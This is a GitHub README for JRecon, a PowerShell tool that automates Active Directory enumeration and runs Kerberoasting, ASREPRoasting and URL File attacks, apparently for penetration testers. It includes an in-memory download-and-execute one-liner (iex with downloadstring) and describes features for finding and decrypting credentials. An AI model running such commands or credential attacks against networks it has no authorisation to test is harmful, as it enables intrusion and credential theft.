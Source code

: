 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while you can go grab a coffee

### How to run ?

Run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JRecon/main/Invoke-JRecon.ps1')
```

Specify the Commercial Version PingCastle URL (or it will download the free version)
```
Invoke-JRecon -PingCastleURL <URL>
```
```
Invoke-JRecon -PingCastleKey "<Key>"
```

### What does the tool enumerate for ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	URL File Attack

### Dependencies

https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 
https://github.com/Group3r/Group3r
 
https://github.com/GhostPack/Certify

https://github.com/cube0x0/LdapSignCheck

https://github.com/vletoux/pingcastle

https://github.com/BloodHoundAD/SharpHound

https://github.com/sense-of-security/ADRecon

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1

https://twitter.com/_RastaMouse

https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/S3cur3Th1sSh1t/PowerSharpPack

https://www.tenable.com

https://github.com/rejetto/hfs2/

https://github.com/nccgroup/WinShareEnum

https://www.advanced-ip-scanner.com/

https://www.virtualbox.org/

https://www.kali.org/
